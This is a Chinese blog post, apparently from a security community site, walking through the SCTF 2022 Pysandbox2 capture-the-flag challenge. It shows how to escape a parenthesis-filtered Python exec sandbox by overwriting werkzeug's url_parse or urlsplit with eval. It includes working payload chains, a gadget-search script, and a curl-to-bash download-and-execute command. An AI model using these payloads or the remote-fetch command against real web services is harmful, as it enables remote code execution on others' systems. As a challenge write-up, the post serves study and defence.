










# Python 沙箱逃逸-先知社区

> **来源**: https://xz.aliyun.com/news/16890  
> **文章ID**: 16890

---

# Python 沙箱逃逸

前言：无意间看到了 SCTF 2022 的 Pysandbox2，感觉利用很巧妙，简单跟进分析了一下。

## url\_parse

题目沙箱限制大概就是不能使用引号和小括号，这里给个差不多的源码，

```
from flask import Flask, request, jsonify  
app = Flask(__name__)  
def is_blacklisted(cmd):  
    return '(' in cmd or ')' in cmd  
@app.route('/')  
def index():  
    with open(__file__, 'r', encoding='utf-8') as f:  
        return f.read()  
@app.route('/calc', methods=['GET', 'POST'])  
def calc():  
    cmd = request.form.get('cmd')  
    if cmd:  
        if is_blacklisted(cmd):  
            return "error"  
        try:  
            exec(cmd,{'app': app})  
            return "success"  
        except Exception as e:  
            return "error"  
    else:  
        return "no cmd"  
if __name__ == '__main__':  
    app.run(host="0.0.0.0", port=8088)
```

简单审计源码其实就是过滤了括号，导致了无法使用方法。一般可以覆盖掉黑名单检测方法，这里不细说该方法了，主要分析官方 wp 的 payload，需要 flask 2.x 版本的

```
request.__class__._get_current_object.__globals__['__loader__'].__class__.__weakref__.__objclass__.contents.__globals__['__loader__'].exec_module.__globals__['_bootstrap_external']._bootstrap.sys.modules['werkzeug.urls'].url_parse=eval
```

看到把 `url_parse` 函数覆盖为了 `eval` 函数，然后可以通过路由控制实现 eval 的参数控制，最后绕过小括号进行任意命令执行。

看 wp 是利用的递归脚本来查找的利用链，脚本如下，

```
import flask 
from flask import request,render_template_string  
from flask import config  
  
app = flask.Flask(__name__)  
app.config['FLAG'] = 'flag{11111}'  
  
def search(obj, max_depth):  
    visited_clss = []  
    visited_objs = []  
  
    def visit(obj, path='obj', depth=0):  
        yield path, obj  
  
        if depth == max_depth:  
            return  
  
        elif isinstance(obj, (int, float, bool, str, bytes)):  
            return  
  
        elif isinstance(obj, type):  
            if obj in visited_clss:  
                return  
            visited_clss.append(obj)  
            print(obj)  
  
        else:  
            if obj in visited_objs:  
                return  
            visited_objs.append(obj)  
  
        # attributes  
        for name in dir(obj):  
            if name.startswith('__') and name.endswith('__'):  
                if name not in ('__globals__', '__class__', '__self__',  
                                '__weakref__', '__objclass__', '__module__'):  
                    continue  
            attr = getattr(obj, name)  
            yield from visit(attr, '{}.{}'.format(path, name), depth + 1)  
  
        # dict values  
        if hasattr(obj, 'items') and callable(obj.items):  
            try:  
                for k, v in obj.items():  
                    yield from visit(v, '{}[{}]'.format(path, repr(k)), depth)  
            except:  
                pass  
  
        # items  
        elif isinstance(obj, (set, list, tuple, frozenset)):  
            for i, v in enumerate(obj):  
                yield from visit(v, '{}[{}]'.format(path, repr(i)), depth)  
  
    yield from visit(obj)  
  
@app.route('/')  
def index():  
    for path, obj in search(app, 4):  
        if "url_parse" in str(obj):  
            return path
```

简单分析一下，执行上面命令后，再次请求，会先调用 `handle()` 方法来处理相关请求，



然后一直跟到 `make_environ` 方法，



虽然这里也调用了 `url_parse` 方法，但是查看发现该方法并没有被覆盖掉，跟进发现就是调用的 urls.url\_parse 方法，为什么没成功呢，继续向下看，



来到 write 方法中，这里调用了 `send_response`，



一直跟进，最后发现在 `uri_to_iri` 还有调用 `url_parse`



而且这个 url\_parse 已经被覆盖为了 eval 方法



那为什么这里成功了，前面没成功，都是同一个函数。后面发现该方法调用就在 urls 中，意思是覆盖其实并不是覆盖调用了整个方法，只是覆盖掉了作用域中的方法。



后面就可以进行任意命令执行了，

## urlsplit

而在 flask3.x 版本中肯定也是存在 url 路由处理函数的。简单查找发现也位于 `serving.make_environ` 方法，



还是利用上面的脚本找利用链

```
app.__class__.__weakref__.__objclass__._get_exc_class_and_code.__globals__['__loader__'].__class__._cache_bytecode.__globals__['sys'].modules['werkzeug.serving'].urlsplit
```

然后同样进行覆盖，



在路由进行命令执行

```
__import__('os').system('curl$IFSip/bash.txt|bash')
```



其实除了污染这些明显的路由处理函数，还有很多地方也会对路由或者其他参数进行处理的，同理这些地方都是可以覆盖的。在 ssti 漏洞中也算是一个绕过 waf 的思路的吧。

## 原型链污染

发现是可以利用 `setattr` 方法进行设置的，

```
setattr(app.__class__.__weakref__.__objclass__._get_exc_class_and_code.__globals__['__loader__'].__class__._cache_bytecode.__globals__['sys'].modules['werkzeug.serving'],"urlsplit",eval)
```

但是总所周知原型链污染不能污染为方法，主要原因是因为 json 传参的时候必须要加双引号，如果直接构造其实是可以的。

参考：<https://ctftime.org/writeup/22157>
